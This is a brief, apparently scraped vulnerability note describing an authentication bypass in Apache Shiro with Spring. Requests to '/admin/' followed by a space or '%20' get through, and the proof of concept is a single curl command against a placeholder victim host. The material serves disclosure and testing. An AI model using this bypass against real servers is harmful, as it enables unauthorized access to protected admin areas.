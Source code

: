 <languages  />

條件
----

    Shiro with Spring


    /admin/[space]
    /admin/%20

POC
---

    curl -v http://[Vimtim]/admin/%20/